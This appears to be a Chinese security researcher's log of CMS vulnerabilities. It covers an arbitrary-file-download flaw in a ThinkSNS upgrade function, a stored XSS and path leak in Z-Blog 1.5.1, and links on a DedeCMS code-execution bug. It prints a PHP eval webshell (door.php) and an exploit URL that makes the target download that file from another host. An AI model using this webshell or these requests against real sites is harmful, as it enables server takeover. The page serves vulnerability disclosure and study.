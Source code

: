 在这段函数中，先备份老配置文件，然后下载增量包，下载参数$downUrl未经过任何处理，直接下载到网站目录下，接着验证hash判断包是否合法，但是并没有删除下载的增量包，
导致程序在实现上存在任意文件下载漏洞，下载远程文件到网站目录下，攻击者可指定第三方url下载恶意脚本到网站目录，进一步触发恶意代码，控制网站服务器。
	
远程下载文件，在另一个服务器上创建door.php。

	<?php   
	echo "<?php";
	echo "eval(file_get_contents('php://input'));";  
	echo "?>";  
	?>  


远程下载 	

`http://127.0.0.1:8000/ts4/index.php?app=admin&mod=Upgrade&act=step1&upurl=http://192.168.86.194:8000/door.php`

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-3-6/64637983.jpg)

会在`ts4\data\upgrade`出现下载的`door.php`文件。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-3-6/64755240.jpg)

#### 20180307 [Z-Blog_1.5.1.1740_bugs](https://github.com/ponyma233/cms/blob/master/Z-Blog_1.5.1.1740_bugs.md#web-site-physical-path-leakage)

在登录后台中，存在存储型`XSS`。

网站设置中。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-3-7/94288863.jpg)

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-3-7/85254114.jpg)

网站标题和网站副标题中均存在`XSS`漏洞。

`ZC_BLOG_SUBNAME`和`ZC_BLOG_NAME`参数。

通过抓包来看具体的请求参数以及相应的文件。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-3-7/44092416.jpg)

`/zb_system/cmd.php?act=SettingSav`

报错，泄漏网站物理路径。

`/zb_users/cache/compiled/default/module-previous.php`

#### 20180308 [DedeCMS V5.7 SP2后台存在代码执行漏洞](http://www.freebuf.com/vuls/164035.html)

[某CMS V5.7 SP2 后台Getshell](https://xianzhi.aliyun.com/forum/topic/2071)

[DedeCMS V5.7 SP2后台存在代码执行漏洞](http://www.freebuf.com/vuls/164035.html)



[下载](http://www.dedecms.com/products/dedecms/downloads/)
